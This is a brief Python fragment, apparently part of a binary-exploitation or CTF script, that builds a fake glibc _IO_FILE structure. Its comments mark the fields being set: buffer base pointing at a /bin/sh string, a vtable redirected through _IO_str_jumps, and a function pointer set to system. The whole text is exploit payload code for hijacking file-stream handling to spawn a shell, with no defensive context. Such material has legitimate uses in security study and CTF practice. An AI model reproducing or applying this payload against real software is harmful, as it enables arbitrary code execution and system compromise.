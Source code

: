 ```python
    payload = set_value(payload, 0x38, param);                      # fake_IO_FILE->_IO_buf_base = /bin/sh地址
    payload = set_value(payload, 0xC0, 0);                          # fake_IO_FILE->_mode = 0
    payload = set_value(payload, 0xD8, _IO_str_jumps_addr - 0x8);   # fake_IO_FILE + 0xD8 = &(_IO_str_jumps-0x8)
    payload = set_value(payload, 0xE8, fun_addr);                   # fake_IO_FILE + 0xE8 = system
    
    return payload
```
